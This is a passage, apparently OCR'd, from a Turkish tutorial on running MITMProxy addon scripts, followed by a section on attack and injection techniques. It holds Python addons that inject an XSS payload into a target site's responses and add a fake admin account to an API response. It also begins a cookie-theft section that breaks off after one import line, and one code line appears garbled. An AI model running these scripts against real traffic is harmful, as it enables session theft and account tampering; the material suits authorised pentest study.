 5. MITMProxy Addon Scriptini Çalıştırmak
Otomatik trafik manipülasyonu yapmak için Python scriptini şu şekilde çalıştırabilirsiniz:
bash
mitmproxy -s modify\_traffic.py
veya
bash
mitmweb -s modify\_traffic.py
Eğer CLI arayüz yerine grafik arayüz (mitmweb) kullanmak istiyorsanız, http://127.0.0.1:8081 adresinden manuel düzenlemeler de yapabilirsiniz.

Sonuç
MITMProxy ile otomatik akış değiştirme işlemleri şunları kapsar: ✅ İstekleri manipüle etme (User-Agent, yönlendirme, veri değiştirme)
✅ Yanıtları manipüle etme (JSON API değiştirme, içerik değiştirme)
✅ HTTPS trafiğini manipüle etme (SSL sertifikası gereklidir)
✅ Otomatik sansürleme veya içerik ekleme


MITMProxy ile Saldırı ve Enjeksiyon Teknikleri
MITMProxy kullanarak trafik manipülasyonu yapabilir, saldırı senaryolarını test edebilir ve enjeksiyonlar gerçekleştirebilirsiniz. Bu, özellikle güvenlik testleri, pentest ve Red Team operasyonlarında kullanılır.
📌 Dikkat: Bu teknikler sadece etik hackerlık ve güvenlik testleri için kullanılmalıdır. Yetkisiz bir şekilde uygulamak yasadışıdır.

1. HTTP/HTTPS İsteklerine Enjeksiyon
MITMProxy ile hedef sistemlere zararlı yükler (payload), JavaScript kodları veya kimlik doğrulama token'ları ekleyebilirsiniz.
🔹 Örnek 1: Web Sayfasına Otomatik XSS Enjeksiyonu
Bir web sitesinin HTML yanıtına otomatik olarak zararlı bir XSS payload'u enjekte etmek:
python
from mitmproxy import http

def response(flow: http.HTTPFlow):
 if "target.com" in flow.request.pretty\_url:
 flow.response.text = flow.response.text.replace("", "alert('XSS')")

📌 Bu betik, "target.com" yanıtına bir XSS saldırısı ekler.

🔹 Örnek 2: API Yanıtına Arka Kapı (Backdoor) Ekleme
Bir REST API yanıtına sahte kullanıcı eklemek için:
python
import json
from mitmproxy import http

def response(flow: http.HTTPFlow):
 if "api.target.com/users" in flow.request.pretty\_url:
 data = json.loads(flow.response.text)
 data["users"].append({"id": 9999, "username": "hacker", "role": "admin"})
 flow.response.text = json.dumps(data)

📌 Bu betik, API yanıtına sahte bir yönetici hesabı ekler.

2. Kimlik Doğrulama ve Çerez (Cookie) Hırsızlığı
MITMProxy ile kimlik doğrulama başlıklarını (Authorization), oturum çerezlerini (Cookies) ve API anahtarlarını (API Keys) çalabilirsiniz.
🔹 Örnek 3: Çerezleri (Cookies) Loglama
python
from mitmproxy import ctx
